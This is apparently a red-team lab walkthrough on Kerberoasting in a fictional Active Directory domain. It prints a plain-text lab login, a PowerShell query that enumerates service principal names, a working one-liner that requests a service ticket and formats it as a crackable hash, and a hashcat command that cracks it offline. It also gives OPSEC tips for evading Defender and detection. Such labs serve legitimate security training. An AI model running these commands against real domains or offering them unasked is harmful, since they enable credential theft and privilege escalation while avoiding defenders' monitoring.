

# Advanced Kerberoasting


## Roast like a Ghost

The point of kerberoasting is to get credentials for accounts with higher privledges. Service accounts or accounts with SPNs (Call them SPINS if you want to be cool.) often have higher credentials. MSSQL databases actually automatically create them for the service account running the MSSQL service.  But they can often be assigned to accounts for number of services including files services.

As you can imagine, even lowly Domain Users need to interact with file services, and can request tickets associated with these SPN accounts. Previously you did this were Rubeus, now we are going to turn on defender, watch it delete that tool immediately because it is super burned, and then craft our own Ticket Requests to get the Kerb Hash back from the svc-file account.

> **OPSEC NOTES**:
> - You still need the domain user context, so proxying would require passing creds but is doable.
> - Don't dump the results to a file, non custom tools like you just use do that by default, but this is quickly evades
> - This does require network authentication, so there is a double hope issue with doing it remotely without passing creds
> - If this is done in custom runspace, very difficult to detect


1. Login from LIGHTEATER to TWORIVERS using RDP and the following user level credentials:  
wheel\felixb:P@ssW0rD!

2. Now that you have the SAM account names, perform a subsquent query to obtain the SPN names. These will be used to perform targeted kerberoasting attacks by obtaining the kerberos pre-authentication ticket hash from the DC.


```
$name="svc-file"
[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns
```

3. Armed with the list of the user SAM accounts and SPN names, we will perform the attack using the command below. Note that you will need to change the SPN and SAM account for each user (e.g., "`HOST/shadarlogoth.wheel.co`", "`svc-file`"). Copy the SPN hashes to crack offline.

> Requesting a TGS-REP ticket for the user with the SPN. All domain users can request any service.

```
$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}}; $_spn.invoke("HOST/shadarlogoth.wheel.co", "svc-file");
```
Returns the RC4 HASH



> You don't have this written to file, but you can just copy it from the terminal, and into a notepad file on your LIGHTEATER desktop. However, this is the same has that you already cracked previously.

1. If you wanted to use **hashcat** in your own environment, your command would look like this. Of course the password has to be in the list.
   ```sh
   hashcat -m 13100 -a 0 -w 4 --force --opencl-device-types 1,2 -O ./kerb.hash ./rawk_you.txt
   ```
   Keep a text file with the decrypted passwords for each domain admin.

13100 is the type used for this kind of ticket.

> You can view modes using: `hashcat -h | grep -i kerberos`


